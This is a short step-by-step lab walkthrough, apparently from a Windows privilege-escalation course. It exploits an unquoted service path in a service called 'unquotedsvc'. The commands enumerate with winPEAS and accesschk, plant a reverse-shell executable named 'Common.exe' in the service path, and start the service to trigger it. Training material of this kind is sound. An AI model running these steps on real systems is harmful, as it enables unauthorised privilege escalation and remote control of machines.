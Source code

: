 1.Run winPEAS to check for service misconfigurations:

 .\winPEASany.exe quiet servicesinfo

2.Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common
Files\unquotedpathservice.exe


3.Confirm this using sc:
sc qc unquotedsvc


4.Use accesschk.exe to check for write permissions:

 .\accesschk.exe /accepteula -uwdq C:\
 
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
 
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

5.Copy the reverse shell executable and rename it appropriately:

copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

6.Start a listener on Kali, and then start the service to trigger the exploit:

net start unquotedsvc